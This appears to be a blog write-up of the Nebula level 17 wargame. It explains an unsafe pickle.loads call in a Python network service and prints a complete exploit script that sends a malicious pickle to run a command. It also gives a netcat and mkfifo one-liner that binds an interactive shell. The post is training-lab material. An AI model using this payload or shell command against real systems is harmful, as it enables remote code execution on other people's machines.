 ```yaml
---
layout: post
title: "Vulnerability just ahead"
category: WarGame, Nebula
---
```


>&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp; **[Nebula 17](https://web.archive.org/web/20141004180714/http://exploit-exercises.com/nebula/level17) Agenda**: "There is a python script listening on port 10007 that contains a vulnerability."

<center>
	<img src="/images/2015-10-15-vulnerability_just_ahead/3200ef81de9f240f664048f7.jpg">
</center>
<br />

The first thing that catches the eye in the source, is the next line(immediately raises the question - "_whyyy?_"):
{% highlight python linenos %}
obj = pickle.loads(line)
{% endhighlight %}
This means that server expects to receive serialized(by [pickle](https://docs.python.org/2/library/pickle.html#module-pickle)) data. [Search results](https://duckduckgo.com/?q=cPickle+vulnerability&t=canonical) confirms, that module is unsafe (in the main - [\_\_reduce\_\_](https://docs.python.org/2/library/pickle.html#object.__reduce__) deserialization method). According to the docs, we need to send serialized object, that implements required routine, which in order should return something useful. In our case, a tuple with "_os.system_" as callable object argumet, and the second one(tuple's arg) should be another tuple which will serve as an callable's arg("_getflag_"):

{% highlight python linenos %}
#!/usr/bin/python
import os
import socket
import cPickle

TARGET_HOST = "192.168.1.3"
TARGET_PORT = 10007
TARGET_CMD = "getflag > /tmp/flag"

class GhostInTheShell(object):
    def __reduce__(self):
        return (os.system, (TARGET_CMD,))


def sendPayloadAndReceiveResponse():    
    payload = cPickle.dumps(GhostInTheShell())

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((TARGET_HOST, TARGET_PORT))
    sock.send(payload) 

    print(sock.recv(1024))

    sock.close()


def main():
    sendPayloadAndReceiveResponse()


if __name__ == "__main__":
    main()
{% endhighlight %}

Well, if smdb needs smth more than just string output evidence(e.g. simple interactive shell 。☆°⋆＼(- – )), then smdb could grab a chunk from nc man page:

{% highlight sh linenos %}
rm -f /tmp/f; mkfifo /tmp/f && cat /tmp/f | /bin/sh -i 2>&1 | nc -l 0.0.0.0 1234 > /tmp/f
{% endhighlight %}

Resources:

 * [Python class object](https://docs.python.org/2/library/functions.html#object)
 * [What is the purpose of self in Python?](http://stackoverflow.com/questions/2709821/what-is-the-purpose-of-self-in-python)